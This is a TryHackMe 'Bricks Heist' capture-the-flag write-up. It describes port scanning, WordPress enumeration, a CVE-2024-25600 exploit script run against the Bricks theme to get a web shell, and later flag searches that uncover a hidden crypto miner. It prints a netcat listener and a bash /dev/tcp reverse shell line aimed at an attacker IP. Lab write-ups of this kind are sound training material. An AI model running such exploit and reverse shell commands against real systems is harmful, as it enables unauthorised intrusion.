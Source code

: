 # 📝 Bricks Heist – TryHackMe Writeup

---

## 🔍 Enumeration

### Nmap Scan
Pro tip: scan for all open port then to a detailed scan on open ones  
```bash
nmap -p- --min-rate=2000 -oN allport.nmap $IP
```
```bash
nmap -sC -sV -vv -p$1, $2, $3 -oN detaile.nmap $IP
```
![nmap](screenshots/nmap1.png)  
![nmap](screenshots/nmap2.png)   
Open PORTS: 22, 80, 443, 3306   

### PORT 443
Note: add `$MACHINE-IP  bricks.thm` to /etc/hosts  
![web](screenshots/web1.png)   
![web](screenshots/web2.png)   
checked a few directories/files like `/robot.txt` `wp-admin` but nothing useful

### WPSCAN
```bash
wpscan --url https://brick.thm --disable-tls-checks
```
![wpscan](screenshots/wp1.png)  
![wpscan](screenshots/wp2.png)  

From the scan we found out that its using `Bricks theme V 1.9.5`. After searchin gfor potential exploits for this on google  
Found Out:[**CVE-2024-25600.py**](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py)  

---
## 💥Exploitation

### Web Shell
```bash
python3 Downloads/CVE-2024-25600.py --url https://bricks.thm
```
![apacheshell](screenshots/apaches.png)  

Right now this is just a web shell that is the input is going through a php code that is being run on a server.  
Getting a reverse shell from web shell:  
Set up listener,
```bash
nc -nvlp 1234
```
Bash Reverse Shell,
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1
```

---
## Flags
1.hidden.txt
```bash
find -name hidden.txt
```
2.Service associated
```bash
ps aux 
```
![service](screenshots/service.png)  
3.Sus Process  
```bash
systemctl status <service name>
```
![process](screenshots/process.png)  
4. Log file  
```bash
cd /lib/NetworkManager
```
![miner](screenshots/miner.png)  
5.Wallet adresss  
Using cyberChef to decode a doubly encoded base 64 hex. We get two bc adresses. Used blockchain to verify them;  
![adress](screenshots/adress1.png)   
![adress](screenshots/adress2.png)   
6.Threat Group   
Researching about the bc wallet address on google + chatGPT











